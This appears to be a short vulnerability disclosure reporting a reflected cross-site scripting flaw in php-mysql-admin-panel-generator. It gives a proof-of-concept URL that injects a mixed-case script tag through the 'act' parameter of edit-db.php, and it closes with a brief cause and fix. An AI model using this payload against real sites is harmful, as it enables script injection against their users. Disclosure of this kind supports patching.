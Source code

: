 # CVE

Affected software : php-mysql-admin-panel-generator

Version : N/A

Type of vulnerability : XSS (Cross-Site Scripting)

Author : s7safe

Description:
php-mysql-admin-panel-generator is susceptible to cross-site scripting attacks, allowing malicious users to inject code into web pages, and other users will be affected when viewing web pages .

login the system
![图片](https://user-images.githubusercontent.com/54035968/165912263-1c58df4a-9817-43ad-897c-f53de0c99cd8.png)


PoC :
turn to http://192.168.146.130/generated/mysql2022-03-26_02-49/edit-db.php?act=%22%3E%3CScRiPt%3Ealert(%22xss%22)%3C%2FsCrIpT%3E

payload:"><ScRiPt>alert("xss")<%2FsCrIpT>

Successful

![图片](https://user-images.githubusercontent.com/54035968/165912245-57e856f1-eb97-49a1-ba60-975c78a61fae.png)


Reason:
Failure to filter or escape special characters leads to vulnerabilities

How to fix :
escape special characters or filter it .

by s7safe
